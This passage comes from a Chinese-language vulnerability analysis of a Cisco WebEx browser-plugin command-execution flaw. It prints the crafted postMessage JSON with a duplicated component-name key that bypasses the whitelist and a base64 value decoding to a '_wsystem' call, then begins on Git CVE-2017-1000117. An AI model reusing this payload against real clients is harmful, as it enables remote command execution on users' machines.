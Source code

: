 进入GpcInitCall进入verifyScriptCall检查：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01ec411c18038c9684.png)

[![](https://p2.ssl.qhimg.com/t01fee7bc2a9ec3b111.png)](https://p2.ssl.qhimg.com/t01fee7bc2a9ec3b111.png)

因为verifyScriptCall存在缺陷，GpcInitCall中的内容在经过verifyScriptCall检查后，仍然如下：

```
X3dzeXN0ZW0oT2JqZWN0QWRkcmVzcyk9V2ViRXhfRXhwbG9pdDs=
```

base64解码后：

```
_wsystem(ObjectAddress)=WebEx_Exploit;
```

最后白名单检查时，因为存在两个GpcComponentName，其中第一个为atmccli.dll，所以可以通过白名单：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01a2b611b5413ff743.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0198e8d85567c61dd2.png)

进入postMessage的message中：



```
"GpcComponentName":"YXRtY2NsaS5kbGw=",          atmccli.dll

"GpcComponentName\u0000":"bXN2Y3IxMDAuZGxs",      msvcr100.dll

"GpcInitCall":"X3dzeXN0ZW0oT2JqZWN0QWRkcmVzcyk9V2ViRXhfRXhwbG9pdDs=" _wsystem(ObjectAddress)=WebEx_Exploit;
```

最后可以通过_wsystem(ObjectAddress)的方式成功执行命令。

#### 总结

该Cisco WebEx的漏洞主要是由Web插件中JavaScript代码针对json解析问题以及黑名单过滤不完整导致页面传入的非法数据，最终在客户端上的命令执行问题。

浏览器是用户日常使用中频率最高的软件之一，而浏览器上插件的安全性直接影响浏览器的安全。我们之后也将会持续关注浏览器插件相关的安全性问题。

### Git ssh CVE-2017-1000117漏洞

在2017年8月10日Junio C Hamano在邮件组www.mail-archive.com发布了这一问题。恶意攻击人员可以通过巧妙构造“ssh://…”链接，让受害人在执行git程序等情况下访问该恶意链接，从而达到命令执行的目的。该链接可以被放在 git 项目的 .gitmodules 文件下，这样当受害人对一个项目进行“git clone –recurse-submodules”操作时，就会引发严重安全问题。漏洞影响包括但不限于 Git，SVN，CVS，HG，Gitlab，GithubDesktop，SourceTree 等。

#### 漏洞相关背景
